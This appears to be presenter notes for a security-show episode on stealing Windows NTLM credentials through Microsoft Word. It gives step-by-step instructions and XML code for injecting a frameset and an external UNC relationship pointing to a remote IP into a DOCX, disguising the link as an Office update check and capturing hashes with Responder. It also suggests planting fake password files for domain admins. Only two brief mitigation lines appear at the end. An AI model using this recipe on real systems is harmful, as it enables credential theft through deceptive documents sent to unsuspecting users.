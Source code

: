 Leaking Windows Creds Externally Via MS Office - Tradecraft Security Weekly #21

# History
- Red Team against Mimecast Advanced Security
- DDE and Macros were being detected
- External links in email were being detected
- Using company name/Employee impersonation was being detected
# Framesets...like it's 1997!
- HTML 4.0 introduced frames and framesets
- Microsoft Word as an HTML editor? Sure why not.
- Combine these w/ 20yr old hash leaking bug...
# NTLM v1/v2 via Remote UNC
- Likely all Windows versions affected
- Likely all MS Office versions
- Use Responder or Inveigh to setup rogue SMB server
- Embed UNC path to remote host and embed in DOCX
- Share DOCX w/ domain admin or plant fake 'Passwords.docx'
# DEMO
1. Create new Microsoft Word Passwords_Secured.docx and save.
2. Open in 7zip or archive manager and drag the webSettings.xml file onto desktop. Open webSettings.xml in text editor of choice 
3. ![f7a81969ac218dc4711cf9c94fdbe134.png](../_resources/edea8ff6e81242038feebbfbdee6a33d.png)
4. and add the following frameset code to the bottom:
```
<w:Frameset>
	<w:framesetSplitbar>
		<w:w w:val="60"/>
		<w:color w:val="auto"/>
		<w:noBorder/>
	</w:framesetSplitbar>
	<w:frameset>
		<w:frame>
			<w:name w:val="1"/>
			<w:sourceFileName r:id="rId1"/>
			<w:linkedToFile/>
		</w:frame>
	</w:frameset>
</w:frameset><w:optimizeForBrowser/><w:allowPNG/></w:webSettings>
```
![02de5a7a13e69f6bd60e57cb5ef1686e.png](../_resources/8407f8129be34154a0b7b9dcddcbc8da.png)
5. Save this
6. Create a webSettings.xml.rels file in text editor and save it
```
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<Relationships
	xmlns="http://schemas.openxmlformats.org/package/2006/relationships">
	<Relationship Id="rId1" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/frame" Target="\\165.227.203.35\ to check for Microsoft Office Updates                                      .docx" TargetMode="External"/>
</Relationships>
```
![fdae5eddb73b3956c9d8c9bdb9fc5c8e.png](../_resources/bf3edc075b9e4dbab097a20ca288507c.png)

7. Drag your new webSettings.xml file to the archive and save it there overwritting the old.
8. Open the rels folder and copy the new webSettings.xml.rels file there too.
9. run responder on remote attack server 
# Additional ideas...
- Exchange Web Services (EWS) SOAP calls for relaying NTLM hashes
- Embed multiple frames for hashes and remote DDE at the same time
- Silently plant DOCX w/GSuite users on Google Drive and don't notify them
- Other Microsoft Office files
# For the Blue Team
- NTLM blocking & auditing *WARNING*
- Disable NTLM protocols via Group Policy

